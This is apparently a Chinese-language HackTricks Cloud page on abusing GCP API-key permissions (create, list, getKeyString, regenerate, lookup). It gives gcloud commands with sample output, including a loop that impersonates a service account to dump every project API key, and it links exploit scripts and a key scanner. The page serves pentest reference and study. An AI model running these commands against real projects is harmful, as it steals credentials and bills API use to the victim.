 # GCP - Apikeys 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## apikeys

以下权限对于创建和窃取API密钥很有用，注意文档中的说明：_API密钥是一个简单的加密字符串，它**不涉及任何主体地标识一个应用程序**。它们对于匿名访问**公共数据**很有用，并用于将API请求与您的项目关联，以便进行配额和**计费**。_

因此，使用API密钥，您可以使公司为您使用API的费用买单，但您将无法提升权限。

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

此权限允许**创建一个API密钥**：
```bash
gcloud alpha services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
你可以在[**这里找到一个脚本，用于自动化创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh)。

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

这些权限允许**列出并获取所有的apiKeys以及获取密钥**：
```bash
gcloud alpha services api-keys create
for  key  in  $(gcloud --impersonate-service-account="${SERVICE_ACCOUNT_ID}@${PROJECT_ID}.iam.gserviceaccount.com" alpha services api-keys list --uri); do
gcloud --impersonate-service-account="${SERVICE_ACCOUNT_ID}@${PROJECT_ID}.iam.gserviceaccount.com" alpha services api-keys get-key-string "$key"
done
```
您可以在此处找到一个脚本，用于自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh)。

### `apikeys.keys.regenerate`，`apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

这些权限将（可能）允许您**列出并重新生成所有apiKeys，获取新的Key**。\
从`gcloud`中无法使用此功能，但您可能可以通过API使用它。一旦支持，利用将类似于前一个（我猜）。

### `apikeys.keys.lookup` <a href="#apikeys.keys.lookup" id="apikeys.keys.lookup"></a>

这对于检查**您找到的API密钥属于哪个GCP项目**非常有用：
```bash
gcloud alpha services api-keys lookup AIzaSyD[...]uE8Y
name: projects/5[...]6/locations/global/keys/28d[...]e0e
parent: projects/5[...]6/locations/global
```
在这个场景中，运行工具 [https://github.com/ozguralp/gmapsapiscanner](https://github.com/ozguralp/gmapsapiscanner) 并检查你可以使用 API 密钥访问什么也可能很有趣。

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习 AWS 黑客技术！</strong></summary>

其他支持 HackTricks 的方式：

* 如果你想在 **HackTricks** 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧**。

</details>
